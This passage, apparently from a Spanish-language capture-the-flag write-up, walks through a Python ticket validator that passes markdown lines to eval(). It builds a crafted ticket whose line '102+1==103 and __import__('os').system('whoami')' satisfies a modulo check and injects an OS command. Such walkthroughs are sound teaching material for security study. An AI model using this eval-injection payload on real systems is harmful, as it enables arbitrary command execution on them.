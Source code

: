 * verifica si la siguiente linea comienza con **## Ticket to ** mediante la funcion **startswith()**.

```markdown
# Skytrain Inc
## Ticket to 
```

* verifica si la siguiente linea comienza con **__Ticket Code:__** mediante la funcion **startswith()**.

```markdown
# Skytrain Inc
## Ticket to 
__Ticket Code:__
```

* verifica si la siguiente linea comienza con **\*\*** mediante la funcion **startswith()**.
* En esa misma linea se hace un **replace** de **\*\*** por "".
* se hace un **split** del caracter **+** y se toma el primer elemento.
* ese elemento se lo parsea a **int** y hace la validacion si modulo de ese elemento es igual a 4 (%7\=\=4).
* si es asi se manda a la funcion **eval()** toda esa lnea pero haciendo un **replace** nuevamente de **\*\*** por "".
* por ultimo se comprueba si el resultado de la funcion **eval()** es mayor a 100.

```markdown
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**102+1==103 and __import__('os').system('whoami')==False
```

La ultima linea es donde esta lo bueno, si hacemos un **replace** nuevamente de **\*\*** por "" y se hace un **split** del caracter **+** y se toma el primer elemento tenemos el 102. Como saque este valor, pues multiplique 7\*14 que es igual a 98 y le sume 4 para se cumpla la condicion del modulo. Pueden hacer con cualquier otro numero no necesariamente 14. 

A la funcion **eval()** para que ejecute otra expresion podriamos mandarle que ejecute condiciones booleanas como de un condicional, con **and** concatenamos otra expresion. Se mando la siguiente estructura:

```bash
(x+y==z) and (a==b)
```

pero representado de la siguiente manera:

```bash
102+1==103 and __import__('os').system('whoami')==False
```

La segunda expresion puede igualarlo a lo que quiera no necesariamente a **False**.

En el codigo, despues de la funcion **eval()** sigue este pedaso de codigo:

```python
if validationNumber > 100:
     return True
else:
     return False
```
